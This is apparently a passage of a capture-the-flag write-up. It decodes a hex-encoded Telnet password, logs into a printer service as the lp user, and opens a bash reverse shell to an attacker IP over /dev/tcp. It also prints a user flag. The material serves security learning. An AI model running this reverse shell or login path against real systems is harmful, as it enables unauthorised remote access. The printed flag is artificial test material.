






Decoding the hex values reveals the password.
```bash
$ echo "50 40 73 73 77 30 72 64 40 31 32 33 21 21 31 32                            INT ✘ 
33 1 3 9 17 18 19 22 23 25 26 27 30 31 33 34 35 37 38 39 42 43 49 50 51 54 57 58 61 65 74 75 79 82 83 86 90 91 94 95 98 103 106 111 114 115 119 122 123 126 130 131 134 135" | xargs | xxd -ps -r
```


Now if we go back to Telnet connection with this as a Password,  P@ssw0rd@123!!123�q��"2Rbs3CSs��$4�Eu�WGW�(8i



We are in.  Sending ? shows usage instructions.
```bash
$ exec id
```


We see that this service is running as lp user who's member of lpadmin group. From this reference we see that these groups are used to manage printers.
- lp (LP): Members of this group can enable and use printers. (The user lp is not used anymore.)
- lpadmin (LPADMIN): Allows members to manage printers and pending jobs sent by other users.

Since we are inside a system that allows us to execute commands using the `exec` instruction, we will try to send ourselves a reverse shell. With the help of **revshells.com**, we can do this in a simple way.


```bash
>exec bash -c "bash -i >& /dev/tcp/10.10.14.15/443 0>&1"
```



```bash
User Flag →  e8aa07ccada2d68d6d516692d45f2ac0
```

[Back](README.md)